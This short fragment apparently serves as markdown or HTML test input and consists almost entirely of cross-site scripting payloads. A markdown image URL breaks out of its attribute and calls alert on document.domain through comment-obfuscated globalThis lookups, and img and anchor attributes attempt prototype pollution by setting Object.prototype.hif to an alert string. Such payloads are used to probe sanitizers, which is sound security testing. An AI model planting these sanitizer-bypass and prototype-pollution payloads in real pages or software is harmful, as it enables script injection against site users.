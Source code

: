 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10';globalThis[/*foo*/'alert'/*bar*/](globalThis[/*foo*/'document'/*bar*/]['domain']);//)

<img src=";Object.prototype.hif=['alert(document.domain)'];">
<a href="Object.prototype.hif=['alert(document.domain)'];">aaa</a>
